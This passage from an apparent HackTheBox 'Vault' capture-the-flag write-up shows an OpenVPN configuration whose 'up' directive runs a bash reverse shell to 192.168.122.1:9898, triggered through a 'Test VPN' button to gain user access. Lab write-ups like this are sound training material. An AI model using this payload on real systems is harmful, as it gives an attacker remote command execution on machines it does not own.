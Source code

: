 #### ip : `192.168.122.1`
#### Reverse shell payload : 
```
remote 192.168.122.1
dev tun
nobind
script-security 2 
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/9898 0>&1'"
```
![](/images/hackthebox/vault/31.png)
#### I used `nobind` because as you can see there's a note saying that `nobind` must be used. Let's update the file and click on `Test VPN` then check our listener :
![](/images/hackthebox/vault/32.png)
<br>
<br>
![](/images/hackthebox/vault/33.png)
#### And we owned user !
<br>